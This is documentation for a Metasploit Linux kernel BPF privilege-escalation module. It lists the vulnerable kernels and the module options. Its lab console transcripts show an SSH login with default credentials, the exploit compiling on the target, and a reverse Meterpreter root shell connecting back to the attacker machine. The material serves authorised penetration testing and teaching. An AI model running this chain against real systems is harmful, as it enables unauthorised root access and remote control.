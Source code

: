 ## Notes

This module (and the original exploit) are written in several parts: `hello`, `doubleput`, and `suidhelper`.

Mettle at times on this exploit will give back an invalid session number error.  In these cases `payload/linux/x64/shell/bind_tcp` seemed to always work.

As of PR submission, the original shell becomes unresposive when the root shell occurs.  Metasm fails to compile due to `fuse.h` being required.

As of PR submission, killing of the process `hello` and `doubleput` has to occur manually.  `/tmp/fuse_mount` also needs to be unmounted and deleted.

## Creating A Testing Environment

There are a few requirements for this module to work:

  1. `CONFIG_BPF_SYSCALL=y` must be set in the kernel (default on Ubuntu 16.04 (Linux 4.4.0-38-generic))
  2. `kernel.unprivileged_bpf_disabled` can't be set to `1` (default on Ubuntu 16.04 (Linux 4.4.0-38-generic))
  3. fuse needs to be installed (non-default on Ubuntu 16.04 (Linux 4.4.0-38-generic))
  
  Using Ubuntu 16.04, simply `sudo apt-get install fuse` and you're all set!

This module has been tested against:

  1. Ubuntu 16.04 linux-image-4.4.0-38-generic (pre-compile & live compile)
  2. Ubuntu 16.04 (default kernel) linux-image-4.4.0-21-generic (pre-compile & live compile)

This module was not tested against, but may work against:

  1. Fedora 24 < [kernel-4.5.4-300.fc24](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  2. Fedora 23 < [kernel-4.5.5-201.fc23](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  3. Fedora 22 < [kernel-4.4.10-200.fc22](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  4. Debian >= 4.4~rc4-1~exp1, < Fixed in version [4.5.3-1](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=823603)
  5. Ubuntu 14.04.1 <= [4.4.0-22.39](https://bugs.launchpad.net/ubuntu/+source/linux/+bug/1578705/comments/3)

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  4. Do: `use exploit/linux/local/bpf_priv_esc`
  5. Do: `set session #`
  6. Do: `set verbose true`
  7. Do: `exploit`

## Options

  **MAXWAIT**

  The first stage of this priv esc can take ~35seconds to execute.  This is the timer on how long we should wait till we give up on the first stage finishing.  Defaults to 120 (seconds)

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to Auto

## Scenarios

### Ubuntu 16.04 (with Linux 4.4.0-38-generic)

#### Initial Access

    msf > use auxiliary/scanner/ssh/ssh_login
    msf auxiliary(ssh_login) > set rhosts 192.168.199.130
    rhosts => 192.168.199.130
    msf auxiliary(ssh_login) > set username ubuntu
    username => ubuntu
    msf auxiliary(ssh_login) > set password ubuntu
    password => ubuntu
    msf auxiliary(ssh_login) > exploit
    
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare) Linux ubuntu 4.4.0-38-generic #57-Ubuntu SMP Tue Sep 6 15:42:33 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.199.131:39175 -> 192.168.199.130:22) at 2016-09-27 12:25:31 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

#### Escalate

In this scenario, gcc and libfuse-dev are both installed so we can live compile on the system.

    msf auxiliary(ssh_login) > use exploit/linux/local/bpf_priv_esc
    msf exploit(bpf_priv_esc) > set verbose true
    verbose => true
    msf exploit(bpf_priv_esc) > set session 1
    session => 1
    msf exploit(bpf_priv_esc) > set lhost 192.168.199.131
    lhost => 192.168.199.131
    msf exploit(bpf_priv_esc) > exploit
    
    [*] Started reverse TCP handler on 192.168.199.131:4444 
    [+] CONFIG_BPF_SYSCAL is set to yes
    [+] kernel.unprivileged_bpf_disabled is NOT set to 1
    [+] fuse is installed
    [+] libfuse-dev is installed
    [+] gcc is installed
    [*] Live compiling exploit on system
    [*] Writing files to target
    [*] Writing hello to /tmp/hello.c
    [*] Max line length is 65537
    [*] Writing 2760 bytes in 1 chunks of 9767 bytes (octal-encoded), using printf
    [*] Writing doubleput to /tmp/doubleput.c
    [*] Max line length is 65537
    [*] Writing 5182 bytes in 1 chunks of 18218 bytes (octal-encoded), using printf
    [*] Writing suidhelper to /tmp/suidhelper.c
    [*] Max line length is 65537
    [*] Writing 352 bytes in 1 chunks of 1219 bytes (octal-encoded), using printf
    [*] Compiling all modules on target
    [*] Writing payload to /tmp/AyDJSaMM
    [*] Max line length is 65537
    [*] Writing 188 bytes in 1 chunks of 506 bytes (octal-encoded), using printf
    [*] Starting execution of priv esc.  This may take about 120 seconds
    [+] got root, starting payload
    [*] Transmitting intermediate stager...(126 bytes)
    [*] Sending stage (2412016 bytes) to 192.168.199.130
    [*] Meterpreter session 2 opened (192.168.199.131:4444 -> 192.168.199.130:43734) at 2016-09-27 12:26:06 -0400
    [*] Cleaning up...
    
    meterpreter > getuid
    Server username: uid=0, gid=0, euid=0, egid=0
    meterpreter > sysinfo
    Computer     : 192.168.199.130
    OS           : Ubuntu 16.04 (Linux 4.4.0-38-generic)
    Architecture : x86_64
    Meterpreter  : x64/linux
    
#### Escalate w/ pre-compiled binaries

It is possible to force pre-compiled binaries, however in this case we look at a system that doesn't have libfuse-dev (ubuntu) installed

    msf auxiliary(ssh_login) > use exploit/linux/local/bpf_priv_esc
    msf exploit(bpf_priv_esc) > set verbose true
    verbose => true
    msf exploit(bpf_priv_esc) > set session 1
    session => 1
    msf exploit(bpf_priv_esc) > set lhost 192.168.199.131
    lhost => 192.168.199.131
    msf exploit(bpf_priv_esc) > exploit
    
    [*] Started reverse TCP handler on 192.168.199.131:4444 
    [+] CONFIG_BPF_SYSCAL is set to yes
    [+] kernel.unprivileged_bpf_disabled is NOT set to 1
    [+] fuse is installed
    [-] libfuse-dev is not installed.  Compiling will fail.
    [*] Dropping pre-compiled exploit on system
    [*] Writing pre-compiled binarys to target
    [*] Max line length is 65537
    [*] Writing 9576 bytes in 1 chunks of 24954 bytes (octal-encoded), using printf
    [*] Max line length is 65537
    [*] Writing 13920 bytes in 1 chunks of 36828 bytes (octal-encoded), using printf
    [*] Max line length is 65537
    [*] Writing 8840 bytes in 1 chunks of 21824 bytes (octal-encoded), using printf
    [*] Writing payload to /tmp/AyDJSaMM
    [*] Max line length is 65537
    [*] Writing 188 bytes in 1 chunks of 506 bytes (octal-encoded), using printf
    [*] Starting execution of priv esc.  This may take about 120 seconds
    [+] got root, starting payload
    [-] This exploit may require process killing of 'hello', and 'doubleput' on the target
    [-] This exploit may requires manual umounting of /tmp/fuse_mount via 'fusermount -z -u /tmp/fuse_mount' on the target
    [-] This exploit may requires manual deletion of /tmp/fuse_mount via 'rm -rf /tmp/fuse_mount' on the target
    [*] Transmitting intermediate stager...(126 bytes)
    [*] Sending stage (2412016 bytes) to 192.168.199.130
    [*] Meterpreter session 2 opened (192.168.199.131:4444 -> 192.168.199.130:55522) at 2016-09-28 08:08:04 -0400
    
    meterpreter > getuid
    Server username: uid=0, gid=0, euid=0, egid=0
